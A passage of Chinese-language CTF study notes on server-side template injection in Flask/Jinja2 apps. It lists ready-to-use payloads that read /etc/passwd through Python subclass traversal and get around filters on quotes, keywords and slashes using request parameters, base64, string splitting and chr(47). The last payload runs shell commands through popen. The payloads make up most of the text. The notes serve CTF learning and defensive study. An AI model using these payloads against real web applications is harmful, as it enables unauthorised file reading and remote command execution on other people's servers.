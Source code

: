 pop 函数

```
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
```


### `"` 过滤

`request.args` 是flask中的一个属性，用 GET path 参数传递路径

```
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
```

`request.args`改为`request.values`则利用post的方式进行传参

```
GET:  
{{ ''[request.value.class][request.value.mro][2][request.value.subclasses]()[40]('/etc/passwd').read() }}  
POST:  
class=__class__&mro=__mro__&subclasses=__subclasses__
```


### 关键字过滤

`__getattribute__` base64 编码

```
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

字符串拼接

```
{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}
```


关键字中插入一对单引号 `''`，绕过对关键字的黑名单过滤

```Go
BaseCTF{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137])%}
```


### `/` 过滤

builtins 的 chr 函数
- chr(47) 表示 `/`

```
{% set chr= ''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['_''_bui''ltins_''_']['chr']%}

{% set cmd='cat '~chr(47)~'flag' %}

{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen'](cmd)['rea''d']())%}
```


---
## 参考

- 很清晰且基础的讲解： [从零学习flask模板注入 - FreeBuf网络安全行业门户](https://www.freebuf.com/column/187845.html)
- 一些例题： [CTF-SSTI | Extraderの博客](https://www.extrader.top/posts/47d18edd/)